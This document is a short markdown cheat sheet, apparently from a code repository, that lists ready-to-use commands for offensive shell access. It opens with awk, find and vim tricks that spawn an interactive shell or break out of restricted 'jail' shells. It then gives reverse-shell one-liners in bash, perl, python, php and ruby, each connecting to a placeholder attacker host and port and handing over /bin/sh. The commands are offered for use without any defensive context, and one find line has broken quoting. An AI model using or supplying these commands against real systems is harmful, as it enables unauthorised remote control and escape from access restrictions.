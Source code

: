 ## Uses `awk` command to spawn an interactive shell on a linux-based system
```
awk 'BEGIN {system("/bin/sh")}'
```

## Uses `find` command to spawn an interactive shell on a linux-based system
```
find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

## An alternative way to use the `find` command to spawn an interactive shell on a linux-based system
```
find . -exec /bin/sh \; -quit
```

## Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells"
```
vim -c ':!/bin/sh'
```

## bash reverse shell
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

## perl reverse shell
```
perl -e 'use Socket;$i="<lhost>";$p=<lport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php reverse shell
```
php -r '$sock=fsockopen("<lhost>",<lport>);exec("/bin/sh -i <&3 >&3 2>&3");'
```


## ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("<lhost>",<lport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

